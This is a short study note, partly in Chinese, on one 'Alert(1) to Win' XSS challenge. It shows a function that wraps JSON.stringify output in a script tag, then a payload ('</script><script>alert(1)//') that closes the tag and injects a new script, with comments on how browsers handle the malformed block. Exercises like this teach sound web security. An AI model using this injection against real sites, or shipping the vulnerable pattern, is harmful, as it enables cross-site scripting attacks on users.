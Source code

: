 # Alert(1) to Win
some key fact to know about JavaScript
 * JavaScript 怎麼處理語法錯誤?
```js
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```
attack
```js
// 利用JS handling syntax error - 只有同個<script>中的內容無法執行，其他<script> tag 正常執行！
</script><script>alert(1)//
// 第一個`<script>console.log("</script>`不完整所以會被跳過，第二個`<script>alert(1)//");</script>`會正確執行。
```
